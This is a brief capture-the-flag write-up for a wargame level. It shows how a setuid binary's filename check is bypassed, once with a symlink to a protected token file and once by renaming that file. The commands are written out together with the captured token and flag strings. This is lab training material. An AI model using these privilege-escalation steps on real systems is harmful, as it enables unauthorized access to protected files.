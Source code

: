 # Level08

A symlink race is a kind of software security vulnerability that results from a program creating files in an insecure manner. A malicious user can create a symbolic link to a file not otherwise accessible to them.

```bash
ls -la

-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

# Method01:
```bash
ln -s ~/token /tmp/flag
./level08 /tmp/flag
quif5eloekouj29ke0vouxean
```

# Method02:
```bash
chmod 777 .
mv token flag
./level08 flag
quif5eloekouj29ke0vouxean

su flag08
getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
